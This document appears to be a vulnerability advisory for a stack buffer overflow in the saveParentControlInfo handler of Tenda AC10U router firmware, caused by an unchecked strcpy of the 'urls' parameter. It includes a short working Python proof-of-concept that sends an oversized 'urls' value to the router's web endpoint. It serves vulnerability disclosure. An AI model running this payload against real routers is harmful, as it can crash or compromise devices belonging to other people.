

# Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the urls parameter in the saveParentControlInfo function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "saveParentControlInfo" retrieves the parameter "urls" using "websGetVar", the value of "urls" is passed into function strcpy without any length check, and stored in "(char *)pc_info->mac_addr". It can cause a stack overflow if the size of the data we enter exceeds the size of "(char *)pc_info->mac_addr".



## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/saveParentControlInfo'
payload = {
    'deviceId': '10:11:11:11:11:16',
    'deviceName': 'deviceNAME666',
    'enable': '1',
    'time': '10:00-22:00',
    'url_enable': '1',
    'urls': "a" * 0x800,
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
